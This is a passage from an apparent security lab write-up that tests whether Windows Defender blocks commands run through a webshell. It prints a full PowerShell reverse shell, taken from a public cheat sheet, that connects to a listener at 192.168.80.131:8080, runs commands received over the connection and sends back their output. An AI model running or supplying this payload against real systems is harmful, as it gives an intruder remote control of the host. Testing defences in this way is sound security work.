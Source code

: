 ![8880595061bf8ca552731acf64cc289b.png](/assets/8880595061bf8ca552731acf64cc289b.png)

This tells me a lot. But I guess Windows Defender is not designed to catch this kind of attacks or Payloads, which is okay.

## Command alert
Not because our webshell sists there and gets execute means that we can perform malicious actions. It could be that if we try to perform or run suspicious commands, Windows Defender will stop us from executing them.

I'm gonna assume that we're using the `BROKEN_SYS_GET_C_EVAL` webshell. 

To try to trigger Windows Defender, I though about spawning a reverse shell. Here there are no rules besides from the fact Windows Defender should be on.

I started with a classic one from [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell):
```terminal
powershell -NoP -NonI -W Hidden -Exec Bypass -Command
New-Object System.Net.Sockets.TCPClient("192.168.80.131",8080);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2  = $sendback + "PS " + (pwd).Path + "> ";
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
};
$client.Close()
```
> In the terminal it's a oneliner, here I reported it with spaces and newlines to better see and understand what the payload is doing.
